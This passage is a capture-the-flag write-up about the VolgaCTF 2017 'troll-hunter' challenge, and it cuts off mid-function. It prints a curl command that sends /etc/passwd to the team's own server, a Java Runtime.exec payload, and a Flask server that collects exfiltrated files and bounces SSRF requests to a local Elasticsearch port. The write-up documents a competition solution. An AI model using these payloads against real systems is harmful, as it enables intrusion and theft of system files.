 ## I Dare You, I Double Dare I'll Pwn You

Do you remember that we have blind shell? 

Surely we tried to run reverse-tcp and http shells but we've failed (probably it's possible but we were quite tired and angry) so all we could do - send results via curl:
```python
exec_sh('curl --upload-file /etc/passwd sibears.ru:4042')
```

The worst thing was that we can't run (mb just cos we hate java :o)
```java
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec(new String[]{ "/bin/sh", "-c", "<cmd>" }).getText()
```

That way we have no pipes, command substitutions and so on. Thereby we decided to do it in hard way.

Improve our web server:
```python
from flask import Flask, request
from flask import Response
import requests
app = Flask(__name__)

url = ""
lock = False

@app.route("/print", methods=['GET', 'POST', 'PUT'])
def print_1():
    print("FILE!!!!!\n")
    print(request.stream.read().decode('base64'))
    print("FILE!!!!!\n")
    return "kek"

@app.route("/save/<path:path>", methods=['POST', 'PUT'])
def saas(path):
    with open(path, 'wb') as f:
        f.write(request.stream.read().decode('base64'))
    return "lol"

@app.route("/cmd")
def cmd1():
    with open('cmd.txt', 'r') as f:
        s = f.read()
    return s

@app.route("/")
def hello():
    resp = Response('privet, bot')
    resp.headers['Location'] = url
    return resp, 302

@app.route("/check/<path:path>")
def check(path):
    global url, lock
    if lock:
        return "Already in process", 400
    try:
        lock = True
        url = 'http://127.0.0.1:9200/'+ path +'?' + request.query_string.decode()
        r = requests.post("http://troll-hunter.quals.2017.volgactf.ru:9494/checkip", data={"ip":"http://92.63.71.187:5000"})
        lock = False
        return r.text, r.status_code
```